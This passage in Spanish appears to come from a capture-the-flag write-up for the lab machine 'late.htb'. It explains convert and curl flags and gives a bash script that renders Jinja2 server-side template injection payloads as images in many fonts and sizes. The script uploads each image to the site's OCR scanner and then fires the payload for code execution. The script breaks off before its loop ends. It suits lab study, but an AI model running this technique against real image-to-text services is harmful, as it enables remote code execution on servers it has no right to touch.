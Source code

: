 > **convert** :
>
> -pointsize \<number\>: Asignar tamaño a la fuente del texto
>
> label:\<text\> : Asignar texto a convertir
>
> **curl** :
>
> -is : Incluir cabezeras en la respuesta HTTP y ocultar medidor de progreso/posibles errores
>
> -F "\<form-field\_name\>=@\<file\_name\>": Permite subir archivos/data por POST

> Para hacer la conversión puedes usar muchas herramientas `online`, y para la petición, la misma web te dara la respuesta en un `.txt`. También puedes usar `burpsuite` para visualizar la respuesta.
{: .prompt-tip}

> Mas información sobre **SSTI Flask**: [https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
{: .prompt-info}

Al intentar subir imágenes nos dimos cuenta que el **tamaño de la letra** y probablemente **la fuente**, afectan la ejecución de la inyeccción. 

Para conseguir la ejecución hice un script en `bash`al cuál le pasas un payload del template `Jinja`; aplicando `Bypassing '_'` y quitando las llaves `{ { } }`; para luego probar con diferentes **fuentes** y **tamaños**, validar que la conversión se realizo correctamente y ejecutarlo:

```bash
#!/bin/bash

# Script to find the font and size for payload execution

# extract fonts
if [ ! -f fonts.txt ]; then
        curl -s https://www.azfonts.net/fonts/popular | grep "font-item__title" -A 1 | grep -v "font-item__title" | awk -F">" '{print $2}' | sed 's/<\/strong//g' | tr -s '\n' | sed '51,100d'
fi

# variables
c=1
payload=$1
url="http://images.late.htb/scanner"

while read font; do
        clear
        sleep 2
        echo $c "[+] "$font
        size=8
        for i in $(seq 1 20); do
                data=$(echo Size : $size - Fontsize : $font)
                convert -pointsize $size -font "$font" label:"$payload" data.png
                sleep 0.5
                echo -e "\t" "Fontsize : $size"
                output=$(curl -is -XPOST -F "file=@data.png" $url | grep "<p>" | awk -F ">" '{print $2}')
                echo -e "\t" $output
                if [ "$output" = "$payload" ]; then
                        echo -e "\n\n[!] Same payload -> " $data
                        exec="{ { $payload } }"
                        convert -pointsize $size -font "$font" label:"$exec" data.png
                        echo -e "[+] Payload converted to execution:\n"
                        curl -s -XPOST -F "file=@data.png" $url
                        exit 1
                fi
                let size+=2
        done
```